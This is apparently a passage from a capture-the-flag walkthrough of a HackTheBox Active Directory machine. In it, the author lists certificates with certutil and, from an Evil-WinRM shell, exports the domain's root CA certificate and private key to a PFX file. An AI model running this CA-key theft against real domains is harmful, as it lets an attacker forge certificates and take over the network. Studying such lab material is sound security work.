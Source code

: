 ```powershell
 NotAfter: 10/4/2026 4:33 PM
Subject: CN=DC01.certificate.htb
Certificate Template Name (Certificate Type): DomainController
Non-root Certificate
Template: DomainController, Domain Controller
Cert Hash(sha1): 6fa997d003759d342a224c50604ca0e0fe9a3870
  Key Container = ebea7977f53d772e7db1d8df40cff3e3_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Simple container name: te-DomainController-3a04ef0e-3bc4-40d2-8985-5cd8a41c3226
  Provider = Microsoft RSA SChannel Cryptographic Provider
Private key is NOT exportable
Encryption test passed

================ Certificate 3 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
CertUtil: -store command completed successfully.

```

We will use the serial number of the certificate 3 and we can see that Signature is passed and that because we used that exploit to bypass it. So now let’s get the pfx certificate.

```powershell
*Evil-WinRM* PS C:\Users\ryan.k> certutil -p "sanke" -exportPFX My 75b2f4bbf31f108945147b466131bdca "C:\ca.pfx"
My "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
CertUtil: -exportPFX command completed successfully.

```
